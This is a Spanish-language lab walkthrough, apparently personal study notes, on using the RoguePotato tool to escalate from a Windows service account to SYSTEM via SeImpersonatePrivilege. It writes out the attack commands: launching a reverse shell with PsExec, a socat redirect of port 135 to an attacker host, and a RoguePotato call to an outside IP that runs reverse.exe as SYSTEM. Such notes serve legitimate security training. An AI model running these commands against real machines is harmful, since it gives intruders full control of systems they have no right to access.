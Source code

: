 s una herramienta de escalación de privilegios en sistemas Windows. Se utiliza para elevar los privilegios desde una cuenta de servicio a la cuenta del sistema local. Esto se logra explotando vulnerabilidades en el sistema de Windows, específicamente en el proceso de resolución de DCOM (Distributed Component Object Model) por el puerto 135 a través de la característica SeImpersonatePrivilege, que permite a los atacantes impersonar a otros usuarios o cuentas del sistema.
```
https://github.com/antonioCoco/RoguePotato
```

# Configuración previa
Para poder ejecutar la herramienta y obtener todos los privilegios es necesario que tengamos acceso con una cuenta local y los dos permisos marcados en la imagen
![[Pasted image 20240723091518.png]]
- **SeImpersonatePrivilege**: Este permiso permite a un proceso suplantar la identidad de otro proceso. Es fundamental para muchas técnicas de escalada de privilegios, ya que permite que un proceso menos privilegiado actúe como otro con mayores privilegios. En el contexto de esta tarea, es utilizado por `RoguePotato` para obtener el token SYSTEM.
- **SeAssignPrimaryTokenPrivilege**: Este privilegio permite a un proceso reemplazar el token de seguridad de un proceso. Es importante para la creación de procesos con credenciales diferentes a las originales del proceso que los inicia. En la tarea, después de obtener el token SYSTEM, este permiso es utilizado para lanzar `reverse.exe` con los privilegios elevados.

# Ejemplo Rogue Potato
Para poder usar `Rogue Potato` y obtener una shell con privilegios de `NT/AUTHORITY/SYSTEM` es necesario ejecutarlo con una cuenta del sistema local, asi que para ello lo primero es tener acceso, para ello nos generamos la reverse shell
```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
![[Pasted image 20240723080446.png]]
![[Pasted image 20240723090847.png]]

Ahora ejecutamos el siguiente comando de socat para redireccionar el trafico del puerto 135 el cual es por el que tenemos que escuchar para este ataque y lo redirige por el puerto 9999. Esto simula el tráfico DCOM/RPC en el puerto 135 y lo redirige al puerto 9999
```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.123.207:9999
```
![[Pasted image 20240723090937.png]]

Y ahora volvemos a ponernos a la escucha con netcat y ejecutando la herramienta de `roguepotato` obtenemos el token de `System` en la otra reverse shell.
Rogue Potato se conecta a la IP 10.9.0.184 (en el puerto que normalmente sería 135, pero debido a `socat`, se redirige al puerto 9999) y utiliza esa conexión para ejecutar `reverse.exe` en el sistema comprometido con privilegios elevados
```
C:\PrivEsc\RoguePotato.exe -r 10.9.0.184 -e "C:\PrivEsc\reverse.exe" -l 9999
```
![[Pasted image 20240723091018.png]]

Y como vemos obtenemos la shell como `nt authority\system`
![[Pasted image 20240724093849.png]]

